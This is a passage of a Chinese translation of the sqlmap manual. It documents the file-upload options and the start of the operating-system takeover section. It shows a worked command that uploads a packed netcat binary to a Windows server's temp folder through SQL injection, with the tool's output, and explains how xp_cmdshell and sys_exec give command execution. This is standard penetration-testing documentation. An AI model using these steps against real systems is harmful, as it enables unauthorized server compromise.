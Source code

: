 ```
_example.exe

$ file output/192.168.136.129/files/C__example.exe 
output/192.168.136.129/files/C__example.exe: PE32 executable for MS Windows (GUI
) Intel 80386 32-bit
```

### 将文件上载到数据库服务器的文件系统
选项: `--file-write` 和 `--file-dest`

当后端数据库管理系统是MySQL、PostgreSQL或Microsoft SQL server时，可以将本地文件上载到数据库服务器的文件系统中，并且会话用户具有滥用数据库特定功能和架构弱点所需的特权。指定的文件可以是文本文件或二进制文件。sqlmap将正确处理它。

这些技术在白皮书中很详细 [Advanced SQL injection to operating system full control](http://www.slideshare.net/inquis/advanced-sql-injection-to-operating-system-full-control-whitepaper-4633857).

针对MySQL的目标上传一个二进制压缩文件的示例:

```
$ file /software/nc.exe.packed 
/software/nc.exe.packed: PE32 executable for MS Windows (console) Intel 80386 32
-bit

$ ls -l /software/nc.exe.packed
-rwxr-xr-x 1 inquis inquis 31744 2009-MM-DD hh:mm /software/nc.exe.packed

$ python sqlmap.py -u "http://192.168.136.129/sqlmap/mysql/get_int.aspx?id=1" -\
-file-write "/software/nc.exe.packed" --file-dest "C:/WINDOWS/Temp/nc.exe" -v 1

[...]
[hh:mm:29] [INFO] the back-end DBMS is MySQL
web server operating system: Windows 2003 or 2008
web application technology: ASP.NET, Microsoft IIS 6.0, ASP.NET 2.0.50727
back-end DBMS: MySQL >= 5.0.0

[...]
do you want confirmation that the file 'C:/WINDOWS/Temp/nc.exe' has been success
fully written on the back-end DBMS file system? [Y/n] y
[hh:mm:52] [INFO] retrieved: 31744
[hh:mm:52] [INFO] the file has been successfully written and its size is 31744 b
ytes, same size as the local file '/software/nc.exe.packed'
```

## 操作系统的接管

### 运行任意操作系统命令

选项和开关: `--os-cmd` 和 `--os-shell`

当后端数据库管理系统是MySQL、PostgreSQL或Microsoft SQL server时，可以**在数据库服务器的底层操作系统上运行任意命令**，而会话用户拥有滥用数据库特定功能和架构弱点所需的特权。

在MySQL和PostgreSQL中，sqlmap上传(通过上面解释的文件上传功能)共享库(二进制文件)，其中包含两个用户定义函数，`sys_exec()` 和 `sys_eval()`, 然后，它在数据库中创建这两个函数，并调用其中一个函数执行指定的命令，这取决于用户选择显示标准输出。在Microsoft SQL Server上，sqlmap滥用了 `xp_cmdshell`存储过程:如果它是禁用的(默认情况下是在Microsoft SQL Server > = 2005)，sqlmap重新启用它;如果它不存在，sqlmap将从头创建它。
